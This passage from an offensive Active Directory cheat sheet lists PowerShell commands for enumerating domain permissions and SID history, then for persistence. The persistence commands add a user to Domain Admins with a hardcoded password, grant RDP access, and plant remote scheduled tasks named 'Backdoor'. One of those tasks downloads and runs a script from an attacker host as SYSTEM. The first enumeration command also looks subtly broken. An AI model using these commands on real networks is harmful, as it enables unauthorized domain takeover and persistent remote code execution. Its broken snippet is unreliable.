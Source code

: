 \-**Enumerate Permissions for All Users in Domain**:

```powershell
Get-ADUser -Filter * -Property ntSecurityDescriptor | ForEach-Object {
    [Security.Principal.SecurityIdentifier] $_.ObjectSID } | Select-Object UserName, ntSecurityDescriptor
```

#### 1.10 Enumerate Privileged Accounts (SID History)&#x20;

* **Find Accounts with SID History**:

```powershell
Get-ADUser -Filter {SIDHistory -ne "$null"} -Properties SamAccountName, SIDHistory | Select-Object SamAccountName, SIDHistory
```

## 2. Persistence&#x20;

#### 2.1 Create a User Account&#x20;

* **Add a User to RDP Group for Remote Access**:

```powershell
Add-ADGroupMember -Identity "Remote Desktop Users" -Members <UserName>
```

* **Set User Password Never Expires**:

```powershell
Set-ADUser -Identity <UserName> -PasswordNeverExpires $true
```

#### 2.2 Add User to Domain Admins Group&#x20;

* **Add a New User to Domain Admins Group**:

```powershell
$UserName = "NewAdmin"
$Password = "P@ssw0rd!"
New-ADUser -Name $UserName -AccountPassword (ConvertTo-SecureString $Password -AsPlainText -Force) -Enabled $true
Add-ADGroupMember -Identity "Domain Admins" -Members $UserName
```

#### 2.3 Persistence via Scheduled Task&#x20;

* **Create a Scheduled Task on Remote Machine**:

```powershell
Invoke-WmiMethod -Class Win32_Process -ComputerName <Target_IP> -Name Create -ArgumentList "schtasks /create /tn Backdoor /tr C:\Windows\System32\cmd.exe /sc onstart /ru System"
```

* **Create a Persistent Scheduled Task on a Remote Machine**:

```powershell
Invoke-WmiMethod -Class Win32_Process -ComputerName <Target_IP> -Name Create -ArgumentList "schtasks /create /tn PersistentBackdoor /tr 'powershell.exe -noexit -Command IEX (New-Object Net.WebClient).DownloadString(''http://<attack_ip>:<attack_port>/script.ps1'')' /sc onlogon /ru SYSTEM"
```
